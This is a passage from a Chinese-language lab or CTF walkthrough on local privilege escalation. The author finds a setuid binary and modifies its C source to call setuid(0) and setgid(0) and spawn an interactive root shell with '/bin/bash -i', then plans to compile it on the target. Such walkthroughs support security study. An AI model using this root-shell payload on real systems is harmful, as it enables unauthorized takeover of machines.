

发现没有写权限，但是有`s`也就是特权，想起在之前解压文件时，提供了一个名称一样的文件

![](./pic-1/27.jpg)



查看之前的文件，可以看到是进行一些设置，`0`表示特权，比如`root`就是`0`，整体就是设置提权的，然后执行下面的命令，如果在其中添加一个调动`shell`的是否可行

![](./pic-1/28.jpg)



修改代码

```c
#include<unistd.h>
#include<stdlib.h>	//c语言中的标准头文件
void main()
{ setuid(0);
  setgid(0);
  system("/bin/bash -i");

  system("cat /etc/hosts");

  system("/usr/bin/uname -a");

}

```

然后在靶机上创建一个`c`文件，并把上面内容复制其中，发现`vim`不可用，可以使用其他的，如`vi、nano`等

![](./pic-1/29.jpg)
